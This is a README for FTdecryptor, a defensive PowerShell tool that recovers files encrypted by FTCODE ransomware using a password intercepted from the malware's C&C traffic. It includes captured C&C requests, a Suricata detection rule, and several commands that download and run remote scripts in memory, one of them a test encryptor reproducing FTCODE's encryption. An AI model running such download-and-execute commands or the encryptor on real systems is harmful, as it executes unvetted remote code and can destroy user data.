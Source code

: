 # FTdecryptor

Following some real episodes of plain text body intercepted through Suricata signatures, I developed this simple password based script to easily decrypt data encrypted with FTCODE ransomware.

**Note #1**: *this must be considered a beta version of the script; the author assumes no responsibility for any damage caused by running it.*

**Note #2**: *currently the malware sends the password both as plain and cypher text; we believe the behavior may change soon as the malware is updated, and the plain text form may* not be available anymore.*

**Note #3**: *decrypting files with an incorrect password may make them unrecoverable; so, we recommend taking a backup of the files before running the script.*

## Intercept the body of the POST

### Requests received by the FTCODE C&C server 

```
10.100.100.12 - - [23/Oct/2019 03:26:38] "GET /?need=aegzfej&vid=leg1& HTTP/1.1" 200 -
10.100.100.12 - - [23/Oct/2019 03:26:47] "POST / HTTP/1.1" 200 -
ver=1018.1&vid=leg1&guid=507df552-5c4b-4d38-a486-0c721e84abdb&ext=10b15d&ek=fumgTalOYphVc1RntCG2vQrU4AeBHIb7wFJo9LDMxE3k6sj0S5&r1=UjVUZHd5ekpXbThoTkprc0VZbTBNM25vdkNYTFpYdFpCdnYxZkM1TTY2MDZ0enZ1NFEvVVIxVzk5ZTVscnJwNkx0Y1FIbnVwOFRoeStzclhWWURaWGdjZ0pzYjdGL3U5MHVPcjViTUdIeGRsQTA2VnFINGNNenlQaHNKMWRuV05wOUxjcGZ2czVRQUNSSTRZRkY3R3BaOHluSnlVOVRiN3FHcENvb2dWYk5vPTthWDdHZVNvOVozT1dGdCtMRDhBeG9RTXZFU3YwUjBXWHBNbGd0S08yd3JVNUNTeXhIamZtMldOUytGMkZjdnVwTXE1bWU5T09VNkNvS0dpTnZ5bmNWZGZsdUZld2p2cVdHbEwwN0E3bW5xbEVXT3pCMXlETml3SEwzcGxqR0RrN2JmQklhMytmc1c2bGFxZXlqc053SUkwNE8zTXNueHJGSVpUQXhJem50Qms9&
10.100.100.12 - - [23/Oct/2019 03:26:47] "POST / HTTP/1.1" 200 -
ver=1018.1&vid=leg1&guid=507df552-5c4b-4d38-a486-0c721e84abdb&status=start
10.100.100.12 - - [23/Oct/2019 03:27:58] "POST / HTTP/1.1" 200 -
ver=1018.1&vid=leg1&guid=507df552-5c4b-4d38-a486-0c721e84abdb&status=done&res=28
```

### Complete POST HTTP request containing the password

```
POST / HTTP/1.1
Content-Type: application/x-www-form-urlencoded
Host: pta.bsspta.com
Content-Length: 591
Expect: 100-continue
Connection: Keep-Alive

ver=1018.1&vid=leg1&guid=507df552-5c4b-4d38-a486-0c721e84abdb&ext=10b15d&ek=fumgTalOYphVc1RntCG2vQrU4AeBHIb7wFJo9LDMxE3k6sj0S5&r1=UjVUZHd5ekpXbThoTkprc0VZbTBNM25vdkNYTFpYdFpCdnYxZkM1TTY2MDZ0enZ1NFEvVVIxVzk5ZTVscnJwNkx0Y1FIbnVwOFRoeStzclhWWURaWGdjZ0pzYjdGL3U5MHVPcjViTUdIeGRsQTA2VnFINGNNenlQaHNKMWRuV05wOUxjcGZ2czVRQUNSSTRZRkY3R3BaOHluSnlVOVRiN3FHcENvb2dWYk5vPTthWDdHZVNvOVozT1dGdCtMRDhBeG9RTXZFU3YwUjBXWHBNbGd0S08yd3JVNUNTeXhIamZtMldOUytGMkZjdnVwTXE1bWU5T09VNkNvS0dpTnZ5bmNWZGZsdUZld2p2cVdHbEwwN0E3bW5xbEVXT3pCMXlETml3SEwzcGxqR0RrN2JmQklhMytmc1c2bGFxZXlqc053SUkwNE8zTXNueHJGSVpUQXhJem50Qms9&
```

### Basic suricata signature example

```
alert http $HOME_NET any -> $EXTERNAL_NET any (msg:"CERTEGO TROJAN FTCODE Registration Request (m.bompani)"; flow:to_server; content:"POST"; http_method; content:"ext="; http_client_body; content:"guid="; http_client_body; content:"ek="; http_client_body; classtype:trojan-activity; sid:9000931; rev:1;)
```

## Function Usage

### Tool Help

**SYNOPSIS**

```
Once the FTcode password (ek) is intercepted in the http post request it is possible to decrypt the files through this simple function.

Authors: Gabriele Pippi (@gabriele_pippi)
License: AGPL-3.0
General Requirements: encryption password is required
Required pwsh Dependencies: None
Optional pwsh Dependencies: None
Tested on Version 1018.1
```

**PARAMETER Force**

```
[Warning] In case there is any error during the decryption process all files will become unrecoverable.
Tries to decrypt without backing up files.
This parameter is mutually exclusive with BackupPath.
```

**PARAMETER BackupPath**

```
Specifies the directory where the encrypted files will be backed up. Default = (get-location).Path + '\BACKUPftdecryptor_' + (get-date).tostring("MM-dd-yyyy")
This parameter is mutually exclusive with Force.
```

**PARAMETER Log**

```
Enables tool logging, it requires the Verbose switch option.
```

**PARAMETER LogPath**

```
Specifies the full path to the log file, it requires the Log switch option. Default = (get-location).Path + '\ftdecryptor_'+ (get-date).tostring("MM-dd-yyyy") + '.log'
```

**PARAMETER Extension**

```
Specifies the mandatory extension used by FTcode to rename files. It is currently used to identify possible infected files.
In the observed samples the extension is passed in the "ext" parameter contained in the body of the  plain text post concerned.    
```

**PARAMETER Pass**

```
Specifies the mandatory password used by FTcode to encrypt files.
In the observed samples the extension is passed in the "ek" parameter contained in the body of the plain text post concerned.
At Certego we intercept the requests in question on the networks monitored through a suricata signature.
```

**PARAMETER Path**

```
Specifies the optional path to restrict the scope of encrypted files to be recovered. The path is analyzed recursively.
If the path parameter is not specified, all the disks will be recursively checked.
```

**PARAMETER MinFreeDiskSpace**

```
 Changes the parameter to skip all the disks with less free bytes of the inserted integer.
 Default = 50000 free bytes.
 This parameter is checked only if the path parameter has not been specified.
```

 **PARAMETER MaxByteSize2Decrypt**

```
[WARNING] Incorrectly changing this parameter may make the files unrecoverable.
Specifies the optional parameter that allows you to change the maximum number of bytes to be decrypted.
This parameter was only added for possible code changes by malware authors.
```

### It is recommended to read the help before use

```
Invoke-Expression ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/certego/ransomware_decryptors/master/FTdecryptor/FTdecryptor.ps1')); Get-Help invoke-FTdecryptor -Full
```

### In-memory function delivery

```
Invoke-Expression ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/certego/ransomware_decryptors/master/FTdecryptor/FTdecryptor.ps1')); Invoke-FTdecryptor.ps1 -Verbose -Pass <ek> -Extension <ext> -Log -Path C:\Users\<Username>
```

### Execution via file

```
powershell -ExecutionPolicy Bypass -Command "Import-Module -Name .\FTdecryptor.ps1; Invoke-FTdecryptor -Verbose -Pass <ek> -Extension <ext> -Log"
```

## Examples

### FTdecryptor basic usage

![FTdecryptor basic usage](FTdecryptor_basic.gif)

![Video](https://raw.githubusercontent.com/certego/ransomware_decryptors/master/FTdecryptor/FTdecryptor_basic.webm)

### FTdecryptor backup and log features

![FTdecryptor backup and log features](FTdecryptor_backup_and_log_test.gif)

![Video](https://raw.githubusercontent.com/certego/ransomware_decryptors/master/FTdecryptor/FTdecryptor_backup_and_log_test.webm)

### FTCODE v1018.1  patched decrypted

![FTCODE v1018.1 patched decrypted](FTCODE_1018.1_patched_decrypted.gif)

![Video](https://raw.githubusercontent.com/certego/ransomware_decryptors/master/FTdecryptor/FTCODE_1018.1_patched_decrypted.webm)

## Tests

**Suricata:**

To perform a quick test on suricata we recommend using the FTCODE_v1018.1_full.pcapng file.

**FTCODE encryption:**

To replicate the FTCODE encryption you can use the following function:

**[Warning] this function should only be used for testing purposes**

```
Invoke-Expression ((New-Object System.Net.WebClient).DownloadString('https://raw.githubusercontent.com/certego/ransomware_decryptors/master/FTdecryptor/Tests/only4testFTencryptor.ps1')); Invoke-FTencryptor -Verbose -Path C:\Users\<Users>\Desktop\<path2encrypt>
```
